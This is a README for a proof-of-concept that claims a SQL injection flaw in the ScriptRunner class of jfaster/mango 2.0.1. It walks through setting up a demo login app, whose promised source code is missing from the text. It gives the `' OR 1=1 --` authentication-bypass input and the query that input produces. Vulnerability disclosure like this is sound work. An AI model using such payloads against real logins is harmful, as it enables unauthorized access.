 #  CVE Proof-of-Concept – SQL Injection in `ScriptRunner` (jfaster/mango)

This repository demonstrates a **SQL Injection vulnerability** in the `ScriptRunner` class of the [jfaster/mango](https://github.com/jfaster/mango) project. Using a Java Swing demo application (`LoginApp`), this PoC shows how an attacker can inject SQL, bypass authentication, and extract database content.

---

## Affected Product

- **Vendor**: jfaster  
- **Product**: mango  
- **Version**: 2.0.1  
- **Component**: `org.jfaster.mango.util.ScriptRunner`  
- **Type**: SQL Injection  
- **Impact**: Authentication Bypass, Information Disclosure, Arbitrary Query Execution  

---

##  Step-by-Step Exploit Guide

### Step 1 – Clone the Repository
```bash
git clone https://github.com/jfaster/mango.git
cd mango
```

###  Step 2 – Install and Setup Eclipse
- Download [Eclipse IDE for Java Developers](https://www.eclipse.org/downloads/)
  Install Eclipse and open it.
  
  Ensure Java SE 8 or higher is configured (Project properties → Java Build Path → Libraries → JRE System Library [JavaSE-1.8+])
  
  Include the H2 database library (version 2.1.214) as shown:
  
  Click File → Import → Maven → Existing Maven Projects
  
  Select the cloned mango folder and click Finish

###  Step 3 – Add the Vulnerable Demo (`LoginApp`)
- In Eclipse project tree, open `mango/src/test/java/org/jfaster/mango/util`
- Right-click → `New → Class`
- Name it `LoginApp`
- Paste provided `LoginApp.java` code below and save

###  Step 4 – Run the Demo
- Right-click `LoginApp.java` → `Run As → Java Application`
- A Swing login window titled **Login Form (SQL Injection Test)** will appear

###  Test Inputs

####  Valid Login
- Username: `admin`
- Password: `admin123`

#### Invalid Login
- Username: `user1`
- Password: `wrong`

####  SQL Injection Bypass
- Username: `' OR 1=1 --`
- Password: `[anything]`

This generates:
```sql
SELECT * FROM users WHERE username = '' OR 1=1 --' AND password = '';
```

The `--` disables password checking, successfully bypassing authentication.
**Need a PDF version or zipped project structure?**

- Contact for additional support.

